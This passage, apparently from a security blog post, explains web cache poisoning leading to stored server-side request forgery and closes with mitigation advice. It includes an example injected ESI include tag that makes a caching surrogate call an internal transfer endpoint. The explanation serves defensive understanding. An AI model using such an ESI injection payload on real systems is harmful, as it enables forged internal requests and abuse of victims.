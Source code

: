 Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

  
Response:   

HTTP/1.1 200 OK

Content-Type: text/html

Connection: close

X-Cache: MISS

Content-Length: 3114

  

\[ . . . \]

<esi:include src="http://10.0.0.7/transfer?recipient=12345&amount=54321"/>

\[ . . . \]

  
If a malicious user tricks a victim user to visit the URL with the attacker’s cache-key:

-   _“vulnerable-host.com/home/contact?client\_id=143”_

the application sends the cached response page with the injected _<esi>_ tag to the surrogate. It detects the tag and the “_Stored Server-Side Request Forgery_” attack is successfully exploited!  
The diagram below shows how the parts interact each other:

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgKq_4iN5O_TZW0DeVTjbm7RSATWqxyswNBjiXHFu2jVZdKeVk9u0CKbaSVWBdtsQB6dgFPsa8h_z_98itLZZ20vfmCStKCHq-vaRYoA9i8JqXya2fQDJH20KkJOfIpE9yTvkxQwEuhyphenhyphenpU/w640-h384/ssrf_blog.jpg)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgKq_4iN5O_TZW0DeVTjbm7RSATWqxyswNBjiXHFu2jVZdKeVk9u0CKbaSVWBdtsQB6dgFPsa8h_z_98itLZZ20vfmCStKCHq-vaRYoA9i8JqXya2fQDJH20KkJOfIpE9yTvkxQwEuhyphenhyphenpU/s2048/ssrf_blog.jpg)

  

### Conclusions

It is recommended to pay close attention when **new caching rules** are added, since extending pre-existing configurations is a typical **main source** for cache flaws.  
  
For this reason, it is strongly discouraged the use of _pre-made_ _scripts_ for an homogeneous and immediate cache-control setting over all endpoints.  
  
Regarding **Web Cache Deception** mitigation, all the gateway layers should have a consistent configuration in order to prevent a misconfiguration among them and should cache web pages based on their content type.  
  
On the other hand, in order to decrease the possibility of being vulnerable against _Web Cache Poisoning_ attacks, it is recommended to **validate** and **escape** all the users-controlled inputs, including the request headers.  
  
In particular, it is important to check all the inputs which are **reflected** in cacheable responses. Indeed, it is strongly recommended to **avoid caching web responses** which include user-provided inputs.  
  